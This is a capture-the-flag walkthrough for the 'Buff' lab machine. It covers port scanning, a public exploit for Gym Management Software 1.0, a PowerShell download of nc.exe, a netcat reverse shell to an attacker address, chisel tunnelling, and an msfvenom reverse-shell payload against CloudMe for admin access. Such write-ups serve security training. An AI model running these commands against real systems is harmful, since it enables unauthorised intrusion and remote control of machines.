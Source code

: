 
# Buff
## NMAP

* Rust Scan Results

```console
PORT     STATE SERVICE    REASON
8080/tcp open  http-proxy syn-ack ttl 127
```

* NMAP Results

```console
8080/tcp open  http    syn-ack ttl 127 Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut
```


## Web

* Directory busting

```
[07:52:30] 200 -   66B  - /.gitattributes 
[07:52:49] 200 -    5KB - /about.php 
[07:53:33] 200 -    4KB - /contact.php
[07:53:44] 200 -    4KB - /edit.php
[07:53:49] 200 -    4KB - /feedback.php
[07:53:54] 200 -  143B  - /home.php 
[07:54:03] 200 -   18KB - /license
[07:54:03] 200 -   18KB - /LICENSE
[07:54:32] 200 -  309B  - /Readme.md
[07:54:32] 200 -  309B  - /readme.md
[07:54:32] 200 -  309B  - /README.md
[07:54:32] 200 -  309B  - /README.MD
[07:54:32] 200 -  309B  - /ReadMe.md
[07:54:34] 200 -  137B  - /register.php
[07:54:58] 200 -  209B  - /up.php 
[07:54:59] 200 -  107B  - /upload.php
```

* License reveals that it's using `Gym Management Software 1.0`

```bash
searchsploit gym management software
searchsploit -m php/webapps/48506.py .
python2 48506.py -u http://buff.htb:8080/
```

* Post getting the shell we can import `nc.exe` and get a fluid shell as the shell from the exploit is much restricted

```bash
powershell -c "iwr -Uri http://10.10.x.x/nc.exe -O nc.exe"
nc.exe -e cmd 10.10.x.x 9001
```

![buff-user](./Images/buff-user.png)
## Priv-Esc

* by executing linpeas we can observe the Cloudme_1112.exe and it's respective service running on the machine
* to expose the internal service we can use chisel

```text
chisel.exe client 10.10.x.x:8000 R:8888:localhost
./chisel server -p 8000 --reverse
```

* Modifying the known payload with

```
msfvenom -a x86 -p windows/shell_reverse_tcp LPORT=443 LHOST=10.10.x.x --smallest -b "\x00\x0a\x0d" -f python
```

* Executing the payload now gives us an Admin shell
![buff-admin](./Images/buff-admin.png)